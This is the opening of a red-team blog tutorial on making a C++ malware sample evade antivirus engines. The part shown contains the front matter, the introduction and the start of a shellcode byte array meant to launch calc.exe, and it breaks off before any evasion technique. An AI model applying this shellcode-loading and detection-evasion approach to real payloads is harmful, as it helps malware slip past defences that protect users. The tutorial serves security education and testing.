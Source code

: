```yaml
---
title:  "AV engines evasion for C++ simple malware"
date:   2021-09-04 10:30:45 +0600
header:
  teaser: "/assets/images/2/2021-09-16_11-09.png"
categories: 
  - tutorial
tags:
  - red team
  - windows
  - malware
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![AV evasion 1](/assets/images/2/2021-09-16_11-09.png){:class="img-responsive"}

This is not a tutorial to make a malware, but a practical case for educational purpose only.

AV evasion has always being challenging for red teamers and pentesters, especially for those who write malwares.

In our tutorial, we will write a simple malware in C++ that will launch our payload: `calc.exe` process. Then we check through virustotal how many AV engines detect our malware, after which we will try to reduce the number of AV engines that will detect our malware.

Let's start with simple C++ code of our malware:
```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
```